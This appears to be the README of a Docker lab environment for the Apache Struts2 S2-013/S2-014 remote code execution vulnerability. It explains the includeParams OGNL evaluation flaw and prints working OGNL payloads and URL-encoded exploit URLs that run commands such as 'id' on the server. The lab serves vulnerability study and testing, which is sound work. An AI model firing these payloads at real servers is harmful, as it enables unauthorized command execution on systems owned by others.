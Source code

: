 # S2-013/S2-014 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Version: 2.0.0 - 2.3.14.1

Details:

 - http://struts.apache.org/docs/s2-013.html
 - http://struts.apache.org/docs/s2-014.html

## setup

```
docker-compose build
docker-compose up -d
```

## Refer

The Struts2's tag, `<s:a>` and `<s:url>`, provide an includeParams attribute.The main scope of that attribute is to understand whether includes http request parameter or not.

The allowed values of includeParams are:

1. none - include no parameters in the URL (default)
2. get - include only GET parameters in the URL
3. all - include both GET and POST parameters in the URL

When `includeParams=all`, the GET and POST parameters of this request are placed on the GET parameter of the URL. During this process, the parameters will be parsed by OGNL expressions. It cause the command execution.

Remote Code Execution POC：

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

Example:`http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

![](1.png)

S2-014 is a correction to S2-013. Because when S2-013 is fixed, the execution method of OGNL expression such as ${ognl_exp} is ignored, and S2-014 is an enhanced patch for it.

```
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```